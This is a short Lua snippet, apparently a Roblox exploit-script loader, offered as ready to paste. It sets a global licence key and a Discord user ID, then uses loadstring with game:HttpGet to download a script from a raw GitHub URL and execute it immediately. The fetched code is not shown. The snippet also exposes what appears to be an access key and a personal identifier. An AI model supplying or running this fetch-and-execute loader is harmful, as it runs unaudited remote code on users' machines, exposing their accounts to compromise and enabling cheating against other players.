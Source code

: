 _G.Key = "LuxuryV2_rwegbx15e9x4upmhkm64"
_G.DiscordId = "814355680575881216"
loadstring(game:HttpGet("https://raw.githubusercontent.com/NightsTimeZ/RoyryX/main/mainpack.lua"))()
